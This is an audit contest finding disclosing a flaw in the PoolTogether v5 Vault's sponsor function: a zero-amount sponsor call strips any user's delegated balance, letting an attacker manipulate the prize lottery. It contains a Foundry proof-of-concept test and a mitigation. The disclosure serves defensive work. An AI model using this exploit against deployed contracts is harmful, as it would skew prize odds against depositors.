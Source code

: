 # Original link
https://github.com/code-423n4/2023-07-pooltogether-findings/issues/351
# Lines of code

https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L982-L994


# Vulnerability details

## Impact
The `sponsor` function in the `Vault.sol` contract allows anyone to remove another user's delegation by forcing them to delegate to the sponsor address. `_sponsor` will deposit some amount from the caller for the target user and then force a delegation to the sponsor address (`address(1)`).

However, this amount can just be 0 and so it becomes a function to simply force a removal of a delegation. The full delegated power gets removed, because delegations to the sponsor address are not tracked.

As such, it becomes possible to call `sponsor` for every user and make the total delegated power supply in the TwabController equal to 0.
The attacker can then be the only one with some delegated amount that is equal to 100% of the total supply, manipulating the process of the lottery.

Rectifying the delegation requires manual interaction from the user and the exploit can be repeated anytime, continuously, further manipulating the values in the TwabController.

## Proof of Concept
```
function testPoCDelegateRemoval() public {
    address SPONSORSHIP_ADDRESS = address(1);
    uint96 BALANCE = 100_000_000 ether;

    token.approve(address(vault), BALANCE);
    vault.deposit(BALANCE, address(this));

    assertEq(address(this), twab_controller.delegateOf(address(vault), address(this)));
    assertEq(BALANCE, twab_controller.delegateBalanceOf(address(vault), address(this)));

    // As attacker, call sponsor with 0 amount and victim address
    vm.prank(address(0xdeadbeef));
    vault.sponsor(0, address(this));

    // Delegated balance is now gone
    assertEq(SPONSORSHIP_ADDRESS, twab_controller.delegateOf(address(vault), address(this)));
    assertEq(0, twab_controller.delegateBalanceOf(address(vault), address(this)));
    assertEq(0, twab_controller.delegateBalanceOf(address(vault), SPONSORSHIP_ADDRESS));
}
```

## Tools Used

Manual review, VSCode, Foundry.

## Recommended Mitigation Steps

The `sponsor` function should only accept deposits if the receiver has already delegated to the sponsorship address. Or otherwise, the deposit is accepted, but the delegation should not be forced.


## Assessed type

Other